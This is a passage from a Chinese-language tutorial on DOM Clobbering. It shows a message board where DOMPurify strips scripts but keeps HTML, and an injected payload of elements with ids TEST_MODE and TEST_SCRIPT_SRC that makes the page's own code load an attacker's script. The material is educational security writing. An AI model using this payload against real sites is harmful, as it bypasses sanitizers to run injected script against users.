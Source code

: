 但是知道這個有什麼用呢？有，理解這個規格之後，我們可以得出一個結論：

> 我們是有機會透過 HTML 元素來影響 JS 的

而這個手法用在攻擊上，就是標題的 DOM Clobbering。之前是因為這個攻擊才第一次聽到 clobbering 這個單字的，去查一下發現在 CS 領域中有覆蓋的意思，就是透過 DOM 把一些東西覆蓋掉以達成攻擊的手段。

## DOM Clobbering 入門

那在什麼場景之下有機會用 DOM Clobbering 攻擊呢？

首先，你必須有機會在頁面上顯示你自訂的 HTML，否則就沒有辦法了。所以一個可以攻擊的場景可能會像是這樣：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>
  <h1>留言板</h1>
  <div>
    你的留言：哈囉大家好
  </div> 
  <script>
    if (window.TEST_MODE) {
      // load test script
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```

假設現在有一個留言板，你可以輸入任意內容，但是你的輸入在 server 端會透過 [DOMPurify](https://github.com/cure53/DOMPurify) 來做處理，把任何可以執行 JavaScript 的東西給拿掉，所以 `<script></script>` 會被刪掉，`<img src=x onerror=alert(1)>` 的 `onerror` 會被拿掉，還有許多 XSS payload 都沒有辦法過關。

簡而言之，你沒辦法執行 JavaScript 來達成 XSS，因為這些都被過濾掉了。

但是因為種種因素，並不會過濾掉 HTML 標籤，所以你可以做的事情是顯示自訂的 HTML。只要沒有執行 JS，你想要插入什麼 HTML 標籤，設置什麼屬性都可以。

所以呢，你可以這樣做：

``` html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>
  <h1>留言板</h1>
  <div>
    你的留言：<div id="TEST_MODE"></div>
    <a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>
  </div> 
  <script>
    if (window.TEST_MODE) {
      // load test script
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
```